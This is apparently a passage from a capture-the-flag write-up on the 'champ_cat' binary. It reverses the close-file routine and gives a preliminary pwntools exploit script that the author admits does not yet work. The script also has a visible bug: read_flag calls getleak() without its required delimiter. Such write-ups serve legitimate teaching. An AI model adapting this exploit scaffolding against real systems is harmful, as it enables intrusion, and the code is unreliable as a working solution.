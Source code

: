 Now, what this does essentially is simply closes the file descriptor, the empties the corresponding file name using `memset`, and the frees the chunk in memory and `NULL` out the data on that specific address.

Now when I'm writing this, I understood where I went wrong. I did not read this line carefully `*(undefined8 *)(filelist + (ulong)local_14 * 0x1010 + 0x1008) = 0;`. What line is essentially doing, is zero-ing out the space in the `filelist` that contains address to the chunk that contains the `summary`.

What I kept trying, was, reading the file `/dev/urandom` with a size of `0x100`, and then closing the file, then loading the flag, and then I kept trying to print out the filelist, but it just wasn't working. Well, now I understand why.

So, I'm still going to use the basic concept that I just told (which doesn't work tho) and write a basic exploit that we'll slowly start building upon:

```py:exploit.py
#!/usr/bin/env python3

from pwn import *
context.terminal = ["tmux", "splitw", "-h"]
encode = lambda e: e if type(e) == bytes else str(e).encode()
getleak = lambda delim: int(io.recvregex(delim+b"([^;]*)\n").split()[-1], 16)
def recvlineafter(d): io.recvuntil(encode(d)); return io.recvline()

exe = "./champ_cat"
elf = context.binary = ELF(exe)
libc = elf.libc
io = remote(sys.argv[1], int(sys.argv[2])) if args.REMOTE else process()
if args.GDB: gdb.attach(io, "b *main")

def open_file(slot, name, sz):
	io.sendlineafter(b">", b"n")
	io.sendlineafter(b":", encode(slot))
	io.sendlineafter(b":", encode(name))
	io.sendlineafter(b":", encode(sz))

def read_flag():
	io.sendlineafter(b">", b"f")
	leak = getleak()
	info("flag @ %#x" % leak)

def print_list(end=b"="):
	io.sendlineafter(b">", b"l")
	data = io.recvuntil(end)[:-1]
	print(data.decode())

def print_file(slot, end=b"="):
	io.sendlineafter(b">", b"p")
	io.sendlineafter(b":", encode(slot))
	data = io.recvuntil(end)[:-1]
	print(data.decode())

def close_file(slot):
	io.sendlineafter(b">", b"c")
	io.sendlineafter(b":", encode(slot))

open_file(0, "/dev/urandom", 0x100)
close_file(0)

io.interactive()
```
